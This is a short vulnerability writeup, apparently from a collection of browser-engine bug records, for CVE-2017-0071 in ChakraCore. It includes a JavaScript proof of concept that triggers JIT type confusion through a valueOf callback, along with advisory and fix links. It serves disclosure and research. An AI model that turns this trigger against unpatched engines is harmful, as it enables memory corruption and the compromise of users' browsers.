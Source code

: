 # CVE-2017-0071

- Report: Dec 2016
- Fix: Mar 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
"use strict";

function func(a, b, c) {
    a[0] = 1.2;
    b[0] = c; // <<<<----------------------- (1)
    a[1] = 2.2;
    a[0] = 2.3023e-320;
}

function main() {
    var a = [1.1, 2.2];
    var b = new Uint32Array(100);

    // force to optimize
    for (var i = 0; i < 0x10000; i++)
        func(a, b, i);

    func(a, b, {valueOf: () => {
        a[0] = {}; // <<<<----------------------- (2)
        return 0;
    }});

    a[0].toString();
}

main();
```

## Reference

- [Microsoft (MS17-007)](https://technet.microsoft.com/en-us/library/security/ms17-007.aspx)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1045)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/ff21352270c174ea21606369432909fcb1d9a0e9)

